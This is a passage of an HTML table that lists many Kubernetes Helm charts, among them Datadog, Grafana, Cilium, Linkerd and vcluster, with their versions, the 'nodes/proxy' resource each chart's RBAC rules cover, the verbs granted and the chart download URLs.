leaf="">aws/appmesh-spire-agent:1.0.7</span></section></td><td style="border: 1px solid rgb(204, 204, 204);text-align: left;margin: 0px;padding: 6px 13px;"><section><span leaf="">nodes/proxy</span></section></td><td style="border: 1px solid rgb(204, 204, 204);text-align: left;margin: 0px;padding: 6px 13px;"><section><span leaf="">GET</span></section></td><td style="border: 1px solid rgb(204, 204, 204);text-align: left;margin: 0px;padding: 6px 13px;"><section><span leaf="">https://aws.github.io/eks-charts/appmesh-spire-agent-1.0.7.tgz</span></section></td></tr><tr style="border-top-width: 1px;border-top-style: solid;border-top-color: rgb(204, 204, 204);background-color: white;margin: 0px;padding: 0px;"><td style="border: 1px solid rgb(204, 204, 204);text-align: left;margin: 0px;padding: 6px 13px;"><section><span leaf="">aws/aws-cloudwatch-metrics:0.0.11</span></section></td><td style="border: 1px solid rgb(204, 204, 204);text-align: left;margin: 0px;padding: 6px 13px;"><section><span leaf="">nodes/proxy</span></section></td><td style="border: 1px solid rgb(204, 204, 204);text-align: left;margin: 0px;padding: 6px 13px;"><section><span leaf="">GET</span></section></td><td style="border: 1px solid rgb(204, 204, 204);text-align: left;margin: 0px;padding: 6px 13px;"><section><span leaf="">https://aws.github.io/eks-charts/aws-cloudwatch-metrics-0.0.11.tgz</span></section></td></tr><tr style="border-top-width: 1px;border-top-style: solid;border-top-color: rgb(204, 204, 204);background-color: rgb(248, 248, 248);margin: 0px;padding: 0px;"><td style="border: 1px solid rgb(204, 204, 204);text-align: left;margin: 0px;padding: 6px 13px;"><section><span leaf="">aws/aws-for-fluent-bit:0.1.35</span></section></td><td style="border: 1px solid rgb(204, 204, 204);text-align: left;margin: 0px;padding: 6px 13px;"><section><span leaf="">nodes/proxy</span></section></td><td style="border: 1px solid rgb(204, 204, 204);text-align: left;margin: 0px;padding: 6px 13px;"><section><span leaf="">GET, LIST, WATCH</span></section></td><td style="border: 1px solid rgb(204, 204, 204);text-align: left;margin: 0px;padding: 6px 13px;"><section><span leaf="">https://aws.github.io/eks-charts/aws-for-fluent-bit-0.1.35.tgz</span></section></td></tr><tr style="border-top-width: 1px;border-top-style: solid;border-top-color: rgb(204, 204, 204);background-color: white;margin: 0px;padding: 0px;"><td style="border: 1px solid rgb(204, 204, 204);text-align: left;margin: 0px;padding: 6px 13px;"><section><span leaf="">bitnami/wavefront:4.4.3</span></section></td><td style="border: 1px solid rgb(204, 204, 204);text-align: left;margin: 0px;padding: 6px 13px;"><section><span leaf="">nodes/proxy</span></section></td><td style="border: 1px solid rgb(204, 204, 204);text-align: left;margin: 0px;padding: 6px 13px;"><section><span leaf="">GET, LIST, WATCH</span></section></td><td style="border: 1px solid rgb(204, 204, 204);text-align: left;margin: 0px;padding: 6px 13px;"><section><span leaf="">https://charts.bitnami.com/bitnami/wavefront-4.4.3.tgz</span></section></td></tr><tr style="border-top-width: 1px;border-top-style: solid;border-top-color: rgb(204, 204, 204);background-color: rgb(248, 248, 248);margin: 0px;padding: 0px;"><td style="border: 1px solid rgb(204, 204, 204);text-align: left;margin: 0px;padding: 6px 13px;"><section><span leaf="">choerodon/kube-prometheus:9.3.1</span></section></td><td style="border: 1px solid rgb(204, 204, 204);text-align: left;margin: 0px;padding: 6px 13px;"><section><span leaf="">nodes/proxy</span></section></td><td style="border: 1px solid rgb(204, 204, 204);text-align: left;margin: 0px;padding: 6px 13px;"><section><span leaf="">GET, LIST, WATCH</span></section></td><td style="border: 1px solid rgb(204, 204, 204);text-align: left;margin: 0px;padding: 6px 13px;"><section><span leaf="">https://openchart.choerodon.com.cn/choerodon/c7n/charts/kube-prometheus-9.3.1.tgz</span></section></td></tr><tr style="border-top-width: 1px;border-top-style: solid;border-top-color: rgb(204, 204, 204);background-color: white;margin: 0px;padding: 0px;"><td style="border: 1px solid rgb(204, 204, 204);text-align: left;margin: 0px;padding: 6px 13px;"><section><span leaf="">choerodon/prometheus-operator:9.3.0</span></section></td><td style="border: 1px solid rgb(204, 204, 204);text-align: left;margin: 0px;padding: 6px 13px;"><section><span leaf="">nodes/proxy</span></section></td><td style="border: 1px solid rgb(204, 204, 204);text-align: left;margin: 0px;padding: 6px 13px;"><section><span leaf="">GET, LIST, WATCH</span></section></td><td style="border: 1px solid rgb(204, 204, 204);text-align: left;margin: 0px;padding: 6px 13px;"><section><span leaf="">https://openchart.choerodon.com.cn/choerodon/c7n/charts/prometheus-operator-9.3.0.tgz</span></section></td></tr><tr style="border-top-width: 1px;border-top-style: solid;border-top-color: rgb(204, 204, 204);background-color: rgb(248, 248, 248);margin: 0px;padding: 0px;"><td style="border: 1px solid rgb(204, 204, 204);text-align: left;margin: 0px;padding: 6px 13px;"><section><span leaf="">choerodon/promtail:0.23.0</span></section></td><td style="border: 1px solid rgb(204, 204, 204);text-align: left;margin: 0px;padding: 6px 13px;"><section><span leaf="">nodes/proxy</span></section></td><td style="border: 1px solid rgb(204, 204, 204);text-align: left;margin: 0px;padding: 6px 13px;"><section><span leaf="">GET, WATCH, LIST</span></section></td><td style="border: 1px solid rgb(204, 204, 204);text-align: left;margin: 0px;padding: 6px 13px;"><section><span leaf="">https://openchart.choerodon.com.cn/choerodon/c7n/charts/promtail-0.23.0.tgz</span></section></td></tr><tr style="border-top-width: 1px;border-top-style: solid;border-top-color: rgb(204, 204, 204);background-color: white;margin: 0px;padding: 0px;"><td style="border: 1px solid rgb(204, 204, 204);text-align: left;margin: 0px;padding: 6px 13px;"><section><span leaf="">cilium/cilium:1.19.0-rc.0</span></section></td><td style="border: 1px solid rgb(204, 204, 204);text-align: left;margin: 0px;padding: 6px 13px;"><section><span leaf="">nodes/proxy</span></section></td><td style="border: 1px solid rgb(204, 204, 204);text-align: left;margin: 0px;padding: 6px 13px;"><section><span leaf="">GET</span></section></td><td style="border: 1px solid rgb(204, 204, 204);text-align: left;margin: 0px;padding: 6px 13px;"><section><span leaf="">https://helm.cilium.io/cilium-1.19.0-rc.0.tgz</span></section></td></tr><tr style="border-top-width: 1px;border-top-style: solid;border-top-color: rgb(204, 204, 204);background-color: rgb(248, 248, 248);margin: 0px;padding: 0px;"><td style="border: 1px solid rgb(204, 204, 204);text-align: left;margin: 0px;padding: 6px 13px;"><section><span leaf="">dandydev-charts/grafana-agent:0.19.2</span></section></td><td style="border: 1px solid rgb(204, 204, 204);text-align: left;margin: 0px;padding: 6px 13px;"><section><span leaf="">nodes/proxy</span></section></td><td style="border: 1px solid rgb(204, 204, 204);text-align: left;margin: 0px;padding: 6px 13px;"><section><span leaf="">GET, LIST, WATCH, GET,GET, LIST, WATCH</span></section></td><td style="border: 1px solid rgb(204, 204, 204);text-align: left;margin: 0px;padding: 6px 13px;"><section><span leaf="">https://github.com/DandyDeveloper/charts/releases/download/grafana-agent-0.19.2/grafana-agent-0.19.2.tgz</span></section></td></tr><tr style="border-top-width: 1px;border-top-style: solid;border-top-color: rgb(204, 204, 204);background-color: white;margin: 0px;padding: 0px;"><td style="border: 1px solid rgb(204, 204, 204);text-align: left;margin: 0px;padding: 6px 13px;"><section><span leaf="">datadog/datadog:3.161.2</span></section></td><td style="border: 1px solid rgb(204, 204, 204);text-align: left;margin: 0px;padding: 6px 13px;"><section><span leaf="">nodes/proxy</span></section></td><td style="border: 1px solid rgb(204, 204, 204);text-align: left;margin: 0px;padding: 6px 13px;"><section><span leaf="">GET</span></section></td><td style="border: 1px solid rgb(204, 204, 204);text-align: left;margin: 0px;padding: 6px 13px;"><section><span leaf="">https://github.com/DataDog/helm-charts/releases/download/datadog-3.161.2/datadog-3.161.2.tgz</span></section></td></tr><tr style="border-top-width: 1px;border-top-style: solid;border-top-color: rgb(204, 204, 204);background-color: rgb(248, 248, 248);margin: 0px;padding: 0px;"><td style="border: 1px solid rgb(204, 204, 204);text-align: left;margin: 0px;padding: 6px 13px;"><section><span leaf="">datadog/datadog-operator:2.18.0-dev.1</span></section></td><td style="border: 1px solid rgb(204, 204, 204);text-align: left;margin: 0px;padding: 6px 13px;"><section><span leaf="">nodes/proxy</span></section></td><td style="border: 1px solid rgb(204, 204, 204);text-align: left;margin: 0px;padding: 6px 13px;"><section><span leaf="">GET</span></section></td><td style="border: 1px solid rgb(204, 204, 204);text-align: left;margin: 0px;padding: 6px 13px;"><section><span leaf="">https://github.com/DataDog/helm-charts/releases/download/datadog-operator-2.18.0-dev.1/datadog-operator-2.18.0-dev.1.tgz</span></section></td></tr><tr style="border-top-width: 1px;border-top-style: solid;border-top-color: rgb(204, 204, 204);background-color: white;margin: 0px;padding: 0px;"><td style="border: 1px solid rgb(204, 204, 204);text-align: left;margin: 0px;padding: 6px 13px;"><section><span leaf="">elastic/elastic-agent:9.2.4</span></section></td><td style="border: 1px solid rgb(204, 204, 204);text-align: left;margin: 0px;padding: 6px 13px;"><section><span leaf="">nodes/proxy</span></section></td><td style="border: 1px solid rgb(204, 204, 204);text-align: left;margin: 0px;padding: 6px 13px;"><section><span leaf="">GET, WATCH, LIST</span></section></td><td style="border: 1px solid rgb(204, 204, 204);text-align: left;margin: 0px;padding: 6px 13px;"><section><span leaf="">https://helm.elastic.co/helm/elastic-agent/elastic-agent-9.2.4.tgz</span></section></td></tr><tr style="border-top-width: 1px;border-top-style: solid;border-top-color: rgb(204, 204, 204);background-color: rgb(248, 248, 248);margin: 0px;padding: 0px;"><td style="border: 1px solid rgb(204, 204, 204);text-align: left;margin: 0px;padding: 6px 13px;"><section><span leaf="">flagger/flagger:1.42.0</span></section></td><td style="border: 1px solid rgb(204, 204, 204);text-align: left;margin: 0px;padding: 6px 13px;"><section><span leaf="">nodes/proxy</span></section></td><td style="border: 1px solid rgb(204, 204, 204);text-align: left;margin: 0px;padding: 6px 13px;"><section><span leaf="">GET, LIST, WATCH</span></section></td><td style="border: 1px solid rgb(204, 204, 204);text-align: left;margin: 0px;padding: 6px 13px;"><section><span leaf="">https://flagger.app/flagger-1.42.0.tgz</span></section></td></tr><tr style="border-top-width: 1px;border-top-style: solid;border-top-color: rgb(204, 204, 204);background-color: white;margin: 0px;padding: 0px;"><td style="border: 1px solid rgb(204, 204, 204);text-align: left;margin: 0px;padding: 6px 13px;"><section><span leaf="">fluent/fluent-bit:0.55.0</span></section></td><td style="border: 1px solid rgb(204, 204, 204);text-align: left;margin: 0px;padding: 6px 13px;"><section><span leaf="">nodes/proxy</span></section></td><td style="border: 1px solid rgb(204, 204, 204);text-align: left;margin: 0px;padding: 6px 13px;"><section><span leaf="">GET, LIST, WATCH</span></section></td><td style="border: 1px solid rgb(204, 204, 204);text-align: left;margin: 0px;padding: 6px 13px;"><section><span leaf="">https://github.com/fluent/helm-charts/releases/download/fluent-bit-0.55.0/fluent-bit-0.55.0.tgz</span></section></td></tr><tr style="border-top-width: 1px;border-top-style: solid;border-top-color: rgb(204, 204, 204);background-color: rgb(248, 248, 248);margin: 0px;padding: 0px;"><td style="border: 1px solid rgb(204, 204, 204);text-align: left;margin: 0px;padding: 6px 13px;"><section><span leaf="">fluent/fluent-bit-collector:1.0.0-beta.2</span></section></td><td style="border: 1px solid rgb(204, 204, 204);text-align: left;margin: 0px;padding: 6px 13px;"><section><span leaf="">nodes/proxy</span></section></td><td style="border: 1px solid rgb(204, 204, 204);text-align: left;margin: 0px;padding: 6px 13px;"><section><span leaf="">GET, LIST, WATCH</span></section></td><td style="border: 1px solid rgb(204, 204, 204);text-align: left;margin: 0px;padding: 6px 13px;"><section><span leaf="">https://github.com/fluent/helm-charts/releases/download/fluent-bit-collector-1.0.0-beta.2/fluent-bit-collector-1.0.0-beta.2.tgz</span></section></td></tr><tr style="border-top-width: 1px;border-top-style: solid;border-top-color: rgb(204, 204, 204);background-color: white;margin: 0px;padding: 0px;"><td style="border: 1px solid rgb(204, 204, 204);text-align: left;margin: 0px;padding: 6px 13px;"><section><span leaf="">gadget/gadget:0.48.0</span></section></td><td style="border: 1px solid rgb(204, 204, 204);text-align: left;margin: 0px;padding: 6px 13px;"><section><span leaf="">nodes/proxy</span></section></td><td style="border: 1px solid rgb(204, 204, 204);text-align: left;margin: 0px;padding: 6px 13px;"><section><span leaf="">GET</span></section></td><td style="border: 1px solid rgb(204, 204, 204);text-align: left;margin: 0px;padding: 6px 13px;"><section><span leaf="">https://github.com/inspektor-gadget/inspektor-gadget/releases/download/v0.48.0/gadget-0.48.0.tgz</span></section></td></tr><tr style="border-top-width: 1px;border-top-style: solid;border-top-color: rgb(204, 204, 204);background-color: rgb(248, 248, 248);margin: 0px;padding: 0px;"><td style="border: 1px solid rgb(204, 204, 204);text-align: left;margin: 0px;padding: 6px 13px;"><section><span leaf="">gitlab/gitlab-operator:2.8.2</span></section></td><td style="border: 1px solid rgb(204, 204, 204);text-align: left;margin: 0px;padding: 6px 13px;"><section><span leaf="">nodes/proxy</span></section></td><td style="border: 1px solid rgb(204, 204, 204);text-align: left;margin: 0px;padding: 6px 13px;"><section><span leaf="">GET, LIST, WATCH</span></section></td><td style="border: 1px solid rgb(204, 204, 204);text-align: left;margin: 0px;padding: 6px 13px;"><section><span leaf="">https://gitlab-charts.s3.amazonaws.com/gitlab-operator-2.8.2.tgz</span></section></td></tr><tr style="border-top-width: 1px;border-top-style: solid;border-top-color: rgb(204, 204, 204);background-color: white;margin: 0px;padding: 0px;"><td style="border: 1px solid rgb(204, 204, 204);text-align: left;margin: 0px;padding: 6px 13px;"><section><span leaf="">grafana/grafana-agent:0.44.2</span></section></td><td style="border: 1px solid rgb(204, 204, 204);text-align: left;margin: 0px;padding: 6px 13px;"><section><span leaf="">nodes/proxy</span></section></td><td style="border: 1px solid rgb(204, 204, 204);text-align: left;margin: 0px;padding: 6px 13px;"><section><span leaf="">GET, LIST, WATCH</span></section></td><td style="border: 1px solid rgb(204, 204, 204);text-align: left;margin: 0px;padding: 6px 13px;"><section><span leaf="">https://github.com/grafana/helm-charts/releases/download/grafana-agent-0.44.2/grafana-agent-0.44.2.tgz</span></section></td></tr><tr style="border-top-width: 1px;border-top-style: solid;border-top-color: rgb(204, 204, 204);background-color: rgb(248, 248, 248);margin: 0px;padding: 0px;"><td style="border: 1px solid rgb(204, 204, 204);text-align: left;margin: 0px;padding: 6px 13px;"><section><span leaf="">grafana/grafana-agent-operator:0.5.2</span></section></td><td style="border: 1px solid rgb(204, 204, 204);text-align: left;margin: 0px;padding: 6px 13px;"><section><span leaf="">nodes/proxy</span></section></td><td style="border: 1px solid rgb(204, 204, 204);text-align: left;margin: 0px;padding: 6px 13px;"><section><span leaf="">GET, LIST, WATCH</span></section></td><td style="border: 1px solid rgb(204, 204, 204);text-align: left;margin: 0px;padding: 6px 13px;"><section><span leaf="">https://github.com/grafana/helm-charts/releases/download/grafana-agent-operator-0.5.2/grafana-agent-operator-0.5.2.tgz</span></section></td></tr><tr style="border-top-width: 1px;border-top-style: solid;border-top-color: rgb(204, 204, 204);background-color: white;margin: 0px;padding: 0px;"><td style="border: 1px solid rgb(204, 204, 204);text-align: left;margin: 0px;padding: 6px 13px;"><section><span leaf="">grafana/loki:6.51.0</span></section></td><td style="border: 1px solid rgb(204, 204, 204);text-align: left;margin: 0px;padding: 6px 13px;"><section><span leaf="">nodes/proxy</span></section></td><td style="border: 1px solid rgb(204, 204, 204);text-align: left;margin: 0px;padding: 6px 13px;"><section><span leaf="">GET, LIST, WATCH</span></section></td><td style="border: 1px solid rgb(204, 204, 204);text-align: left;margin: 0px;padding: 6px 13px;"><section><span leaf="">https://github.com/grafana/helm-charts/releases/download/helm-loki-6.51.0/loki-6.51.0.tgz</span></section></td></tr><tr style="border-top-width: 1px;border-top-style: solid;border-top-color: rgb(204, 204, 204);background-color: rgb(248, 248, 248);margin: 0px;padding: 0px;"><td style="border: 1px solid rgb(204, 204, 204);text-align: left;margin: 0px;padding: 6px 13px;"><section><span leaf="">grafana/loki-simple-scalable:1.8.11</span></section></td><td style="border: 1px solid rgb(204, 204, 204);text-align: left;margin: 0px;padding: 6px 13px;"><section><span leaf="">nodes/proxy</span></section></td><td style="border: 1px solid rgb(204, 204, 204);text-align: left;margin: 0px;padding: 6px 13px;"><section><span leaf="">GET, LIST, WATCH</span></section></td><td style="border: 1px solid rgb(204, 204, 204);text-align: left;margin: 0px;padding: 6px 13px;"><section><span leaf="">https://github.com/grafana/helm-charts/releases/download/loki-simple-scalable-1.8.11/loki-simple-scalable-1.8.11.tgz</span></section></td></tr><tr style="border-top-width: 1px;border-top-style: solid;border-top-color: rgb(204, 204, 204);background-color: white;margin: 0px;padding: 0px;"><td style="border: 1px solid rgb(204, 204, 204);text-align: left;margin: 0px;padding: 6px 13px;"><section><span leaf="">grafana/mimir-distributed:6.1.0-weekly.378</span></section></td><td style="border: 1px solid rgb(204, 204, 204);text-align: left;margin: 0px;padding: 6px 13px;"><section><span leaf="">nodes/proxy</span></section></td><td style="border: 1px solid rgb(204, 204, 204);text-align: left;margin: 0px;padding: 6px 13px;"><section><span leaf="">GET, LIST, WATCH</span></section></td><td style="border: 1px solid rgb(204, 204, 204);text-align: left;margin: 0px;padding: 6px 13px;"><section><span leaf="">https://github.com/grafana/helm-charts/releases/download/mimir-distributed-6.1.0-weekly.378/mimir-distributed-6.1.0-weekly.378.tgz</span></section></td></tr><tr style="border-top-width: 1px;border-top-style: solid;border-top-color: rgb(204, 204, 204);background-color: rgb(248, 248, 248);margin: 0px;padding: 0px;"><td style="border: 1px solid rgb(204, 204, 204);text-align: left;margin: 0px;padding: 6px 13px;"><section><span leaf="">grafana/promtail:6.17.1</span></section></td><td style="border: 1px solid rgb(204, 204, 204);text-align: left;margin: 0px;padding: 6px 13px;"><section><span leaf="">nodes/proxy</span></section></td><td style="border: 1px solid rgb(204, 204, 204);text-align: left;margin: 0px;padding: 6px 13px;"><section><span leaf="">GET, WATCH, LIST</span></section></td><td style="border: 1px solid rgb(204, 204, 204);text-align: left;margin: 0px;padding: 6px 13px;"><section><span leaf="">https://github.com/grafana/helm-charts/releases/download/promtail-6.17.1/promtail-6.17.1.tgz</span></section></td></tr><tr style="border-top-width: 1px;border-top-style: solid;border-top-color: rgb(204, 204, 204);background-color: white;margin: 0px;padding: 0px;"><td style="border: 1px solid rgb(204, 204, 204);text-align: left;margin: 0px;padding: 6px 13px;"><section><span leaf="">grafana/tempo-distributed:1.61.0</span></section></td><td style="border: 1px solid rgb(204, 204, 204);text-align: left;margin: 0px;padding: 6px 13px;"><section><span leaf="">nodes/proxy</span></section></td><td style="border: 1px solid rgb(204, 204, 204);text-align: left;margin: 0px;padding: 6px 13px;"><section><span leaf="">GET, LIST, WATCH</span></section></td><td style="border: 1px solid rgb(204, 204, 204);text-align: left;margin: 0px;padding: 6px 13px;"><section><span leaf="">https://github.com/grafana/helm-charts/releases/download/tempo-distributed-1.61.0/tempo-distributed-1.61.0.tgz</span></section></td></tr><tr style="border-top-width: 1px;border-top-style: solid;border-top-color: rgb(204, 204, 204);background-color: rgb(248, 248, 248);margin: 0px;padding: 0px;"><td style="border: 1px solid rgb(204, 204, 204);text-align: left;margin: 0px;padding: 6px 13px;"><section><span leaf="">hashicorp/consul:1.9.2</span></section></td><td style="border: 1px solid rgb(204, 204, 204);text-align: left;margin: 0px;padding: 6px 13px;"><section><span leaf="">nodes/proxy</span></section></td><td style="border: 1px solid rgb(204, 204, 204);text-align: left;margin: 0px;padding: 6px 13px;"><section><span leaf="">GET, LIST, WATCH</span></section></td><td style="border: 1px solid rgb(204, 204, 204);text-align: left;margin: 0px;padding: 6px 13px;"><section><span leaf="">https://helm.releases.hashicorp.com/consul-1.9.2.tgz</span></section></td></tr><tr style="border-top-width: 1px;border-top-style: solid;border-top-color: rgb(204, 204, 204);background-color: white;margin: 0px;padding: 0px;"><td style="border: 1px solid rgb(204, 204, 204);text-align: left;margin: 0px;padding: 6px 13px;"><section><span leaf="">influxdata/telegraf-ds:1.1.45</span></section></td><td style="border: 1px solid rgb(204, 204, 204);text-align: left;margin: 0px;padding: 6px 13px;"><section><span leaf="">nodes/proxy</span></section></td><td style="border: 1px solid rgb(204, 204, 204);text-align: left;margin: 0px;padding: 6px 13px;"><section><span leaf="">GET, LIST, WATCH</span></section></td><td style="border: 1px solid rgb(204, 204, 204);text-align: left;margin: 0px;padding: 6px 13px;"><section><span leaf="">https://github.com/influxdata/helm-charts/releases/download/telegraf-ds-1.1.45/telegraf-ds-1.1.45.tgz</span></section></td></tr><tr style="border-top-width: 1px;border-top-style: solid;border-top-color: rgb(204, 204, 204);background-color: rgb(248, 248, 248);margin: 0px;padding: 0px;"><td style="border: 1px solid rgb(204, 204, 204);text-align: left;margin: 0px;padding: 6px 13px;"><section><span leaf="">jfrog/runtime-sensors:101.3.1</span></section></td><td style="border: 1px solid rgb(204, 204, 204);text-align: left;margin: 0px;padding: 6px 13px;"><section><span leaf="">nodes/proxy</span></section></td><td style="border: 1px solid rgb(204, 204, 204);text-align: left;margin: 0px;padding: 6px 13px;"><section><span leaf="">GET</span></section></td><td style="border: 1px solid rgb(204, 204, 204);text-align: left;margin: 0px;padding: 6px 13px;"><section><span leaf="">https://charts.jfrog.io/artifactory/api/helm/jfrog-charts/sensors/runtime-sensors-101.3.1.tgz</span></section></td></tr><tr style="border-top-width: 1px;border-top-style: solid;border-top-color: rgb(204, 204, 204);background-color: white;margin: 0px;padding: 0px;"><td style="border: 1px solid rgb(204, 204, 204);text-align: left;margin: 0px;padding: 6px 13px;"><section><span leaf="">kasten/k10:8.5.1</span></section></td><td style="border: 1px solid rgb(204, 204, 204);text-align: left;margin: 0px;padding: 6px 13px;"><section><span leaf="">nodes/proxy</span></section></td><td style="border: 1px solid rgb(204, 204, 204);text-align: left;margin: 0px;padding: 6px 13px;"><section><span leaf="">GET, LIST, WATCH</span></section></td><td style="border: 1px solid rgb(204, 204, 204);text-align: left;margin: 0px;padding: 6px 13px;"><section><span leaf="">https://charts.kasten.io/k10-8.5.1.tgz</span></section></td></tr><tr style="border-top-width: 1px;border-top-style: solid;border-top-color: rgb(204, 204, 204);background-color: rgb(248, 248, 248);margin: 0px;padding: 0px;"><td style="border: 1px solid rgb(204, 204, 204);text-align: left;margin: 0px;padding: 6px 13px;"><section><span leaf="">komodor/k8s-watcher:1.18.17</span></section></td><td style="border: 1px solid rgb(204, 204, 204);text-align: left;margin: 0px;padding: 6px 13px;"><section><span leaf="">nodes/proxy</span></section></td><td style="border: 1px solid rgb(204, 204, 204);text-align: left;margin: 0px;padding: 6px 13px;"><section><span leaf="">GET, LIST</span></section></td><td style="border: 1px solid rgb(204, 204, 204);text-align: left;margin: 0px;padding: 6px 13px;"><section><span leaf="">https://helm-charts.komodor.io/k8s-watcher/k8s-watcher-1.18.17.tgz</span></section></td></tr><tr style="border-top-width: 1px;border-top-style: solid;border-top-color: rgb(204, 204, 204);background-color: white;margin: 0px;padding: 0px;"><td style="border: 1px solid rgb(204, 204, 204);text-align: left;margin: 0px;padding: 6px 13px;"><section><span leaf="">komodor/komodor-agent:2.15.4-RC5</span></section></td><td style="border: 1px solid rgb(204, 204, 204);text-align: left;margin: 0px;padding: 6px 13px;"><section><span leaf="">nodes/proxy</span></section></td><td style="border: 1px solid rgb(204, 204, 204);text-align: left;margin: 0px;padding: 6px 13px;"><section><span leaf="">GET, LIST</span></section></td><td style="border: 1px solid rgb(204, 204, 204);text-align: left;margin: 0px;padding: 6px 13px;"><section><span leaf="">https://helm-charts.komodor.io/komodor-agent/komodor-agent-2.15.4-RC5.tgz</span></section></td></tr><tr style="border-top-width: 1px;border-top-style: solid;border-top-color: rgb(204, 204, 204);background-color: rgb(248, 248, 248);margin: 0px;padding: 0px;"><td style="border: 1px solid rgb(204, 204, 204);text-align: left;margin: 0px;padding: 6px 13px;"><section><span leaf="">kubecost/cost-analyzer:2.9.6</span></section></td><td style="border: 1px solid rgb(204, 204, 204);text-align: left;margin: 0px;padding: 6px 13px;"><section><span leaf="">nodes/proxy</span></section></td><td style="border: 1px solid rgb(204, 204, 204);text-align: left;margin: 0px;padding: 6px 13px;"><section><span leaf="">GET, LIST, WATCH</span></section></td><td style="border: 1px solid rgb(204, 204, 204);text-align: left;margin: 0px;padding: 6px 13px;"><section><span leaf="">https://kubecost.github.io/cost-analyzer/cost-analyzer-2.9.6.tgz</span></section></td></tr><tr style="border-top-width: 1px;border-top-style: solid;border-top-color: rgb(204, 204, 204);background-color: white;margin: 0px;padding: 0px;"><td style="border: 1px solid rgb(204, 204, 204);text-align: left;margin: 0px;padding: 6px 13px;"><section><span leaf="">kwatch/kwatch:0.10.3</span></section></td><td style="border: 1px solid rgb(204, 204, 204);text-align: left;margin: 0px;padding: 6px 13px;"><section><span leaf="">nodes/proxy</span></section></td><td style="border: 1px solid rgb(204, 204, 204);text-align: left;margin: 0px;padding: 6px 13px;"><section><span leaf="">GET, WATCH, LIST</span></section></td><td style="border: 1px solid rgb(204, 204, 204);text-align: left;margin: 0px;padding: 6px 13px;"><section><span leaf="">https://kwatch.dev/charts/kwatch-0.10.3.tgz</span></section></td></tr><tr style="border-top-width: 1px;border-top-style: solid;border-top-color: rgb(204, 204, 204);background-color: rgb(248, 248, 248);margin: 0px;padding: 0px;"><td style="border: 1px solid rgb(204, 204, 204);text-align: left;margin: 0px;padding: 6px 13px;"><section><span leaf="">linkerd2/linkerd-viz:30.12.11</span></section></td><td style="border: 1px solid rgb(204, 204, 204);text-align: left;margin: 0px;padding: 6px 13px;"><section><span leaf="">nodes/proxy</span></section></td><td style="border: 1px solid rgb(204, 204, 204);text-align: left;margin: 0px;padding: 6px 13px;"><section><span leaf="">GET, LIST, WATCH</span></section></td><td style="border: 1px solid rgb(204, 204, 204);text-align: left;margin: 0px;padding: 6px 13px;"><section><span leaf="">https://helm.linkerd.io/stable/linkerd-viz-30.12.11.tgz</span></section></td></tr><tr style="border-top-width: 1px;border-top-style: solid;border-top-color: rgb(204, 204, 204);background-color: white;margin: 0px;padding: 0px;"><td style="border: 1px solid rgb(204, 204, 204);text-align: left;margin: 0px;padding: 6px 13px;"><section><span leaf="">linkerd2-edge/linkerd-viz:2026.1.3</span></section></td><td style="border: 1px solid rgb(204, 204, 204);text-align: left;margin: 0px;padding: 6px 13px;"><section><span leaf="">nodes/proxy</span></section></td><td style="border: 1px solid rgb(204, 204, 204);text-align: left;margin: 0px;padding: 6px 13px;"><section><span leaf="">GET, LIST, WATCH</span></section></td><td style="border: 1px solid rgb(204, 204, 204);text-align: left;margin: 0px;padding: 6px 13px;"><section><span leaf="">https://helm.linkerd.io/edge/linkerd-viz-2026.1.3.tgz</span></section></td></tr><tr style="border-top-width: 1px;border-top-style: solid;border-top-color: rgb(204, 204, 204);background-color: rgb(248, 248, 248);margin: 0px;padding: 0px;"><td style="border: 1px solid rgb(204, 204, 204);text-align: left;margin: 0px;padding: 6px 13px;"><section><span leaf="">loft/vcluster:0.32.0-next.0</span></section></td><td style="border: 1px solid rgb(204, 204, 204);text-align: left;margin: 0px;padding: 6px 13px;"><section><span leaf="">nodes/proxy</span></section></td><td style="border: 1px solid rgb(204, 204, 204);text-align: left;margin: 0px;padding: 6px 13px;"><section><span leaf="">GET, WATCH, LIST</span></section></td><td style="border: 1px solid rgb(204, 204, 204);text-align: left;margin: 0px;padding: 6px 13px;"><section><span leaf="">https://charts.loft.sh/charts/vcluster-0.32.0-next.0.tgz</span></section></td></tr><tr style="border-top-width: 1px;border-top-style: solid;border-top-color: rgb(204, 204, 204);background-color: white;margin: 0px;padding: 0px;"><td style="border: 1px solid rgb(204, 204, 204);text-align: left;margin: 0px;padding: 6px 13px;"><section><span leaf="">loft/vcluster-eks:0.19.10</span></section></td><td style="border: 1px solid rgb(204, 204, 204);text-align: left;margin: 0px;padding: 6px 13px;"><section><span leaf="">nodes/proxy</span></section></td><td style="border: 1px solid rgb(204, 204, 204);text-align: left;margin: 0px;padding: 6px 13px;"><section><span leaf="">GET, WATCH, LIST</span></section></td><td style="border: 1px solid rgb(204, 204, 204);text-align: left;margin: 0px;padding: 6px 13px;"><section><span leaf="">https://charts.loft.sh/charts/vcluster-eks-0.19.10.tgz</span></section></td></tr><tr style="border-top-width: 1px;border-top-style: solid;border-top-color: rgb(204, 204, 204);background-color: rgb(248, 248, 248);margin: 0px;padding: 0px;"><td style="border: 1px solid rgb(204, 204, 204);text-align: left;margin: 0px;padding: 6px 13px;"><section><span leaf="">loft/vcluster-k0s:0.19.10</span></section></td><td style="border: 1px solid rgb(204, 204, 204);text-align: left;margin: 0px;padding: 6px 13px;"><section><span leaf="">nodes/proxy</span></section></td><td style="border: 1px solid rgb(204, 204, 204);text-align: left;margin: 0px;padding: 6px 13px;"><section><span leaf="">GET, WATCH, LIST</span></section></td><td style="border: 1px solid rgb(204, 204, 204);text-align: left;margin: 0px;padding: 6px 13px;"><section><span leaf="">https://charts.loft.sh/charts/vcluster-k0s-0.19.10.tgz</span></section></td></tr><tr style="border-top-width: 1px;border-top-style: solid;border-top-color: rgb(204, 204, 204);background-color: white;margin: 0px;padding: 0px;"><td style="border: 1px solid rgb(204, 204, 204);text-align: left;margin: 0px;padding: 6px 13px;"><section><span leaf="">loft/vcluster-k8s:0.19.10</span></section></td><td style="border: 1px solid rgb(204, 204, 204);text-align: left;margin: 0px;padding: 6px 13px;"><section><span leaf="">nodes/proxy</span></section></td><td style="border: 1px solid rgb(204, 204, 204);text-align: left;margin: 0px;padding: 6px 13px;"><section><span leaf="">GET, WATCH, LIST</span></section></td><td style="border: 1px solid rgb(204, 204, 204);text-align: left;margin: 0px;padding: 6px 13px;"><section><span leaf="">https://charts.loft.sh/charts/vcluster-k8s-0.19.10.tgz</span></section></td></tr><tr style="border-top-width: 1px;border-top-style: solid;border-top-color: rgb(204, 204, 204);background-color: rgb(248, 248, 248);margin: 0px;padding: 0px;"><td style="border: 1px solid rgb(204, 204, 204);text-align: left;margin: 0px;padding: 6px 13px;"><section><span 